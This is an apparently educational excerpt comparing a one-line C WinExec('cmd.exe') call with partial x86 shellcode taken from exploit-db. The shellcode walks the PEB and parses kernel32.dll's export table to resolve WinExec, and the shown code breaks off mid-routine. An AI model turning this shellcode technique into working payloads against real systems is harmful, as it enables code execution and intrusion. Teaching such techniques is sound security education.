 ### C Representation

The same thing that we can do in Assembly in over one hundred or more lines of code, we can do in C/C++ in under five lines.

`WinExec.c`:

```
int main() {
    WinExec("cmd.exe", 0);
    
    return 0;
}
```

**This showcases the following:**

* Clear WinAPI usage
* Very easy to understand
* Obvious loss of explicit control

### Assembly Representation

1. Requires dynamic resolvement of WinAPI functions for use (shown in prior slide) — "Walk" the `PEB`.
2. Parse Portable Executable (PE) headers -> Locate export table
3. Find `GetProcAddress()`.
4. Resolve address of `WinExec()`.
5. Call `WinExec("cmd.exe", 0).`

**This showcases the following:**

* Confusing/Complex API usage
* More convoluted
* However, it is obvious that we gain more explicit control of telling the CPU exactly what we want to do, when we want to do it, and how

[`WinExec.asm`](https://www.exploit-db.com/exploits/39900):

```nasm
section .text
  	global _start
_start:

;Finding base address of kernel32.dll

xor ecx,ecx
mov eax,[fs:0x30] ;loading PEB(Process Environment Block) in Eax 
mov eax,[eax+0xc] ;Eax=PEB->Ldr
mov esi,[eax+0x14] ;Eax=Peb->Ldr.InMemOrderModuleList
lodsd ;Eax=second module of InMemOrderModuleList (ntdll.dll)
xchg eax,esi ;Eax=Esi ,Esi=Eax
lodsd ;Eax=third module of InMemOrderModuleList (kernel32.dll)
mov ebx,[eax+0x10] ;Ebx=base Address of Kernel32.dll (PVOID Dllbase)

;-------------------------------------------------------------------------------------------------------



;Finding Export table of Kernel32.dll

mov edx,[ebx+0x3c] ;(kernel32.dll base address+0x3c)=DOS->e_lfanew
add edx,ebx ;(DOS->e_lfanew+base address of kernel32.dll)=PE Header
mov edx,[edx+0x78] ;(PE Header+0x78)=DataDirectory->VirtualAddress
add edx,ebx ; (DataDirectory->VirtualAddress+kernel32.dll base address)=Export table of kernel32.dll (IMAGE_EXPORT_DIRECTORY)
mov esi,[edx+0x20] ;(IMAGE_EXPORT_DIRECTORY+0x20)=AddressOfNames
```